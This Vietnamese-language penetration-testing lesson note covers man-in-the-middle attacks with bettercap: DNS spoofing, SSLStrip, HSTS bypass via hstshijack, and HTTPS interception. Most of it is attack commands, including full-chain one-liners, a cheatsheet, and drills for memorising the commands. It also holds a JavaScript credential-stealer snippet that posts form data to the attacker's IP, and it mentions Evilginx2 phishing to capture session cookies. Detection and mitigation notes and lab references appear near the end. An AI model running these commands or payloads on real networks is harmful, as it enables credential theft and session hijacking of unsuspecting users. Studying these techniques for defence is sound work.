

> **Prerequisites**: [[06-post-connection-mitm-arp|06. Post-Connection MitM — ARP Spoofing]]
> **Objectives**:
> - Thực hiện DNS spoofing để redirect victim đến attacker-controlled page
> - Hiểu SSLStrip và tại sao HTTPS → HTTP downgrade hoạt động
> - Bypass HSTS với hstshijack caplet trong bettercap
> - Intercept credentials qua HTTPS proxy với tự-ký certificate

---

## Điều kiện khai thác

> [!note] Điều kiện bắt buộc
> - ARP spoofing đang active (Lesson 06) — attacker kiểm soát DNS resolution của victim
> - **DNS Spoof**: Victim dùng attacker làm DNS resolver
> - **SSLStrip**: Site không có HSTS; victim dùng HTTP link không phải HTTPS trực tiếp
> - **HSTS Bypass**: Site có HSTS nhưng không có HSTS Preloading (Chrome preload list)
> - **HTTPS Proxy**: Victim bỏ qua cert warning hoặc attacker có cách cài cert

> [!warning] Giới hạn của SSL attacks
> Modern browsers với HSTS Preloading (google.com, facebook.com, etc.) không bị SSLStrip. Kỹ thuật này hiệu quả nhất với internal sites, custom apps, hoặc sites chưa bật HSTS.

---

## Cơ chế tấn công

### DNS Spoofing

Khi ARP spoof active, attacker kiểm soát DNS resolution của victim. DNS spoofing redirect DNS queries của victim đến attacker-controlled IP thay vì IP thật.

```
Normal: victim → DNS server → IP thật của target.com
Attack: victim → [attacker intercept] → trả về IP của attacker
victim truy cập attacker server thay vì target.com
```

Bettercap `dns.spoof` module intercept DNS queries và trả lời giả.

### SSLStrip — Cơ chế

SSLStrip (Moxie Marlinspike, 2009) khai thác một điểm yếu đơn giản:

Khi user gõ `google.com` (không có `https://`), browser gửi HTTP request trước, server redirect đến HTTPS. SSLStrip intercept redirect này và giữ kết nối với victim là HTTP trong khi relay lên server bằng HTTPS.

```
NORMAL:
Victim → HTTP GET google.com → Server 301 → HTTPS → Encrypted

SSLSTRIP:
Victim → HTTP GET google.com → Attacker → HTTPS Google (attacker thấy full response)
Victim ← HTTP (unencrypted) ← Attacker (strip HTTPS redirect)
Victim gõ password qua HTTP → Attacker capture
```

**Điều kiện**: Site không enforce HSTS (HTTP Strict Transport Security). Nếu có HSTS, browser tự upgrade lên HTTPS và bỏ qua redirect từ attacker.

### HSTS và Bypass (hstshijack)

HSTS là HTTP header: `Strict-Transport-Security: max-age=31536000`. Browser nhớ và tự động dùng HTTPS cho domain này trong thời gian max-age.

**HSTS bypass với hstshijack**: Attacker redirect victim đến subdomain giả (`wwww.google.com` thay vì `www.google.com`) — subdomain này không có HSTS → SSL strip hoạt động.

> [!warning] Giới hạn thực tế
> - HSTS Preloading (browser hardcoded list): KHÔNG bypass được. Google, Facebook, PayPal, ngân hàng lớn đều trong preload list.
> - Hoạt động với: internal web apps, custom enterprise apps, sites nhỏ, sites chưa cấu hình HSTS.

---

## Quy trình tấn công

**Môi trường giả định**: ARP spoof đang active, victim IP `192.168.1.10`, attacker `192.168.1.50`.

### Bước 1 — DNS Spoofing với Bettercap

```bash
# Trong bettercap shell (sau khi ARP spoof đã bật từ Lesson 06):

# Redirect tất cả DNS queries về attacker
set dns.spoof.all true
set dns.spoof.address 192.168.1.50

# Redirect domain cụ thể
set dns.spoof.domains target.com,*.target.com
set dns.spoof.address 192.168.1.50

# Bật DNS spoof
dns.spoof on
```

> **Expected output**: `[dns.spoof] spoofing 192.168.1.10 → target.com → 192.168.1.50`.

```bash
# Setup web server trên attacker (phishing page)
sudo python3 -m http.server 80

# Hoặc nginx với fake login page
sudo nginx
```

> **Expected output**: Khi victim truy cập `target.com`, thấy attacker's web page.

### Bước 2 — SSLStrip với Bettercap

```bash
# Enable HTTP proxy với SSL stripping
set https.proxy.sslstrip true
http.proxy on
https.proxy on

# Sniff credentials từ stripped traffic
net.sniff on
set net.sniff.regexp ".*password.*|.*passwd.*|.*pwd.*"
```

> **Expected output**:
> ```
> [http.proxy] sslstrip: stripping https://login.example.com → http://login.example.com
> [net.sniff] POST /login HTTP/1.1 | username=admin&password=P@ssword123
> ```

### Bước 3 — HSTS Bypass với hstshijack Caplet

```bash
# Cài caplets (nếu chưa có)
sudo bettercap -eval "caplets.update"

# Load hstshijack caplet
set hstshijack.targets www.example.com
set hstshijack.replacements wwww.example.com
hstshijack/hstshijack

# Hoặc launch bettercap trực tiếp với caplet
sudo bettercap -iface wlan1 -caplets hstshijack/hstshijack
```

> **Expected output**: `[hstshijack] hijacking www.example.com → wwww.example.com (no HSTS on subdomain)`.

### Bước 4 — HTTPS Proxy (Intercept với Self-Signed Cert)

```bash
# Bettercap làm HTTPS proxy — replace cert với self-signed
# (Victim thấy cert warning — hy vọng họ accept)
https.proxy on

# View intercepted HTTPS traffic
set https.proxy.certificate /path/to/custom-ca.pem
set https.proxy.key /path/to/custom-key.pem
```

> **Expected output**: Browser victim show cert warning. Nếu victim accept → attacker thấy decrypted HTTPS traffic.

### Bước 5 — One-Liner Full Chain

```bash
# ARP + DNS + SSL strip trong một lệnh
sudo bettercap -iface wlan1 -eval \
    "set arp.spoof.targets 192.168.1.10; \
     set arp.spoof.fullduplex true; \
     arp.spoof on; \
     set dns.spoof.all true; \
     set dns.spoof.address 192.168.1.50; \
     dns.spoof on; \
     set https.proxy.sslstrip true; \
     http.proxy on; \
     https.proxy on; \
     net.sniff on"
```

---

## Biến thể & Bypass

### Credential Injection trong HTTP

```bash
# Inject JavaScript vào HTTP responses để steal credentials
set http.proxy.injectjs /tmp/steal_creds.js
http.proxy on

# steal_creds.js example:
# document.addEventListener('submit', function(e) {
#   var data = new FormData(e.target);
#   fetch('http://192.168.1.50/stolen?' + new URLSearchParams(data));
# });
```

### mitmproxy (Advanced)

```bash
# Dùng mitmproxy thay bettercap cho advanced filtering
sudo mitmproxy --mode transparent --listen-host 0.0.0.0 --listen-port 8080

# Transparent proxy với iptables
sudo iptables -t nat -A PREROUTING -i wlan1 -p tcp --dport 80 -j REDIRECT --to-port 8080
sudo iptables -t nat -A PREROUTING -i wlan1 -p tcp --dport 443 -j REDIRECT --to-port 8080
```

### Evilginx2 (Advanced — Phishing với Valid Cert)

Evilginx2 proxy với valid Let's Encrypt cert để bypass cert warnings:

```bash
# Tạo domain phishing (cần domain thật)
# Ví dụ: corp-login.attacker.com → proxy về login.corp.com
# Valid cert → victim không thấy warning
# Capture session cookies sau khi login thành công

./evilginx2 -p ./phishlets/
```

---

## Cây quyết định



---

## Command Cheatsheet

**DNS Spoofing**

```bash
# All domains → attacker IP
set dns.spoof.all true
set dns.spoof.address <ATTACKER_IP>
dns.spoof on

# Specific domains
set dns.spoof.domains target.com,*.target.com
set dns.spoof.address <ATTACKER_IP>
dns.spoof on
```

**SSL Strip**

```bash
set https.proxy.sslstrip true
http.proxy on
https.proxy on
net.sniff on
```

**HSTS Bypass**

```bash
# In bettercap
set hstshijack.targets www.example.com
hstshijack/hstshijack

# CLI
sudo bettercap -iface wlan1 -caplets hstshijack/hstshijack
```

**Full Chain One-liner**

```bash
sudo bettercap -iface wlan1 -eval \
    "set arp.spoof.targets TARGET_IP; set arp.spoof.fullduplex true; arp.spoof on; \
     set dns.spoof.all true; set dns.spoof.address ATTACKER_IP; dns.spoof on; \
     set https.proxy.sslstrip true; http.proxy on; https.proxy on; net.sniff on"
```

**Inject JavaScript**

```bash
set http.proxy.injectjs /path/to/script.js
http.proxy on
```

---

## Daily Drill

**Thời gian**: 15–20 phút/ngày trong 7 ngày đầu.

**Drill 1 — DNS spoof commands sequence**

```bash
set dns.spoof.all true
set dns.spoof.address 192.168.1.50
dns.spoof on
```

Luyện cho đến khi: 3 commands gõ đúng không cần reference, phân biệt được `dns.spoof.all` vs `dns.spoof.domains`.

**Drill 2 — SSL strip sequence**

```bash
set https.proxy.sslstrip true
http.proxy on
https.proxy on
net.sniff on
```

Luyện cho đến khi: 4 commands đúng thứ tự trong 10 giây.

**Drill 3 — Giải thích tại sao SSLStrip fail với HSTS Preloaded sites**

Luyện cho đến khi: giải thích rõ ràng trong 30 giây không dùng notes.

**Drill 4 — Full chain one-liner từ memory**

Luyện cho đến khi: gõ toàn bộ one-liner đúng syntax.

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **Browser**: HTTP thay vì HTTPS trên sites bình thường — dấu hiệu SSLStrip.
> **Cert warnings**: Certificate không hợp lệ hoặc self-signed cho site quen thuộc.
> **DNS**: DNS responses từ IP không phải DNS server bình thường.
> **SIEM**: DNS response từ địa chỉ lạ, HTTP traffic đến sites thường HTTPS.

> [!note] Mitigation
> - **HSTS với max-age dài** và **HSTS Preloading** — bảo vệ tốt nhất chống SSLStrip
> - **Certificate Pinning** (HPKP hoặc app-level) — chống fake certs
> - **VPN** — mã hóa toàn bộ, DNS qua VPN server
> - **DoH/DoT (DNS over HTTPS/TLS)** — ngăn DNS spoofing
> - **Browser extensions**: HTTPS Everywhere, uBlock Origin
> - **Network monitoring**: Alert khi DNS responses không từ legitimate servers

---

## Lab Thực hành

| Platform | Machine / Module | Tại sao phù hợp |
|----------|---------|----------------|
| HTB | **Poison** (Retired) | DNS poisoning + credential capture |
| HTB Academy | **Wi-Fi Evil Twin Attacks** | Section về DNS Spoofing và SSL Interception sau Evil Twin |
| Local VMs | Kali + Windows 10 + Flask app | Setup custom HTTP app để practice SSLStrip |
| HTB Academy | **Attacking Corporate Wi-Fi Networks** | Full chain MitM trong simulated enterprise |

---

## Field Manual Entry

> [!abstract] DNS Spoof + SSL Strip (Bettercap) — Quick Reference
> **Điều kiện**: ARP spoof active; site không có HSTS Preloading (SSLStrip); DNS qua attacker
> **Lệnh nhanh DNS**: `set dns.spoof.all true; set dns.spoof.address IP; dns.spoof on`
> **Lệnh SSL Strip**: `set https.proxy.sslstrip true; http.proxy on; https.proxy on; net.sniff on`
> **HSTS Bypass**: `hstshijack/hstshijack` caplet trong bettercap
> **Look for**: POST requests với credential fields trong net.sniff output
> **Fail conditions**: HSTS Preloaded sites (gmail, facebook), DoH, VPN
> **Ref**: [[07-post-connection-mitm-dns-ssl|07. Post-Connection MitM — DNS & SSL]]
